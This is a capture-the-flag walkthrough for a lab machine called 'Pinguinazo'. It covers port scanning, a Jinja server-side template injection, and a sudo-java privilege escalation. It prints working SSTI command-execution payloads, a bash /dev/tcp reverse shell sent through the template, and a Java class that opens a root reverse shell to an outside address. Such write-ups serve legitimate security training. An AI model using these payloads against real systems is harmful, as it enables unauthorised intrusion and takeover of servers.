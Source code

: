 # Pinguinazo

## Port Enumeration

We started our scan using the Nmap tool during the discovery phase. We found the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
5000/tcp open  upnp    syn-ack ttl 64

```

## Examining ports

We are going to explore the version of this service. For this, we execute the following command:

```ruby
nmap -sCV -p5000 172.17.0.2 
```
we obtain this dataset:

![alt text](Imagenes/Pingu_1.png)


## Analyzing web page

When we enter the web page, we obtain the following:

It looks like a form created with `Jinja`.
![alt text](Imagenes/Pingu_2.png)

We can execute HTML injection to verify if it has any filters.

![alt text](Imagenes/Pingu_3.png)

If we search for directories on the site with the Gobuster tool, we find `/console`

We need a password to access the console.
![alt text](Imagenes/Pingu_4.png)


## Intrusion

We can try to access with `SSTI (Server Side Template Injection)`

We can run a command to execute an SSTI like this:

```ruby
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

we obtain:

![alt text](Imagenes/Pingu_5.png)

Successfully, we obtain a response from the server showing our user.

Now we are going to prepare the reverse shell to connect with us.

First, we need to use the nc tool:

```ruby
nc -lvnp 1234
```

We can exploit with the following command:

```ruby
{{request.application.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/192.168.139.130/1234 0>&1"').read()}}
```

![alt text](Imagenes/Pingu_6.png)


# TTY processing

To make it more comfortable for us, we're going to treat the terminal so that there are no errors in some commands and they work.

For this, we first execute the following order:

```ruby 
script /dev/null -c bash
```

We press ctrl + Z to exit the terminal and do the following commands:

```ruby 
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
```

We will have a more comfortable terminal.

## Escalation privilege

For privilege escalation, we will use the following command:

```ruby
sudo -l
``
We see the commands we can execute as root or other users using sudo: 

```ruby
$ sudo -l
Matching Defaults entries for pinguinazo on 17eb54554e98:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User pinguinazo may run the following commands on 17eb54554e98:
    (ALL) NOPASSWD: /usr/bin/java

```

We can see that we can execute Java scripts, so we can try to create a file to spawn a shell with root privileges.

Therefore, we need to edit the script with the following code:

```ruby
public class shell {
    public static void main(String[] args) {
        Process p;
        try {
            p = Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/192.168.139.130/4321 0>&1");
            p.waitFor();
            p.destroy();
        } catch (Exception e) {}
    }
}

```

Now, we are able to spawn a shell with root privileges if we execute the following:

```ruby
sudo java shell
```

![alt text](Imagenes/Pingu_8.png)
![alt text](Imagenes/Pingu_9.png)
